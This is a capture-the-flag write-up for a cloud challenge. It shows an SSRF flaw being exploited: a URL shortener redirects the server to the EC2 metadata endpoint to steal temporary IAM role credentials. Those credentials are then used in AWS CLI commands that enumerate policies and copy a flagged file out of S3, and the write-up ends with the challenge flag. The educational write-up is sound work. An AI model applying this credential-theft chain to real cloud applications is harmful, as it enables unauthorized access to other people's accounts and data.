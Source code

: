 # Villans

**Category:** Cloud

**Author:** @styx00

## Description



http://18.169.78.30/

## Solution
<details>
 <summary>Reveal Spoiler</summary>
It is obvious that there is an SSRF vulnerability. The `apiURL` exposes an internal IP address.

The application requires the value to start with `http://` or `https://`, but it sends a POST request and ignores the user-supplied path.
However, users can bypass both limitations by hosting a web server or using a third-party service such as https://short.gy to redirect the application wherever they desire.

### SSRF

The following short URL points to http://169.254.169.254/latest/meta-data/iam/security-credentials/EC2-Role in order to retrieve the temporary AWS credentials attached to the EC2 instance.

```
https://3us7.short.gy/
```

### Add to your cli profile and fire at will.

```
aws sts get-caller-identity --profile ccsc
```

### Get Attached Policies
```
aws iam list-attached-role-policies --role-name EC2-Role --profile ccsc
```

### Get info for EC2-Read-Bucket policy
```
aws iam get-policy --policy-arn arn:aws:iam::880571524541:policy/EC2-Read-Bucket --profile ccsc
```

### Read EC2-Read-Bucket policy
```
aws iam get-policy-version --version-id v1 --policy-arn arn:aws:iam::880571524541:policy/EC2-Read-Bucket --profile ccsc
```

### Read flag
```
aws s3 cp s3://secret-bucket-flag/flag.txt flag.txt --profile ccsc
```

### Flag
```
 CCSC{0h_myyy_exc3ll3n7_w0rk_lov3_from_R11111111111111ck}
 ```

</details>
